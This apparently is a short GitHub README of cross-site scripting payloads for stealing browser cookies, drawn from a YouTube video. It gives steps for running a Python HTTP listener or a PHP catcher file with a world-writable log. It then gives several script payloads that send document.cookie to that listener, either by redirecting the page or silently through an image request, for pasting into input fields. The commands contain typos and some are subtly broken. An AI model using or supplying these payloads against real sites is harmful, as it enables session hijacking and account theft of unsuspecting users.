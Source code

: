 # Stealling Cookies

All Payload that used from this Youtube Video

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener

1 - Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2 - write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies without go to another window

1 - Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2 - Write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie

1 - go to html File:

[~] YasserREED> cd  /var/www/html

2 - Make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

3 - Make log.txt file:

YasserRED> sudo touch log.txt

4 - Give all Privileges:

YasserREED> sudo chmod 777 log.txt

# Send The Cookie to log.txt by get.php using window.location() function

1 - Write The Payload:

<script> window.location='https://127.0.0.1/get.php?cookie='+document.cookie </script> 

2 - Paste to input filed.

3 - Check log.txt. //if not showen you can refresh the page 🔄

# Take the cookie Silence by get.php and send it to log.txt

1 - Write Payload:

<script>
    var o = new Image();
    o.src="http://127.0.0.1/get.php?cookie="+document.cookie
</script>


2 - Paste in input filed.

3 - Check log.txt //if not showen you can refresh the page 🔄

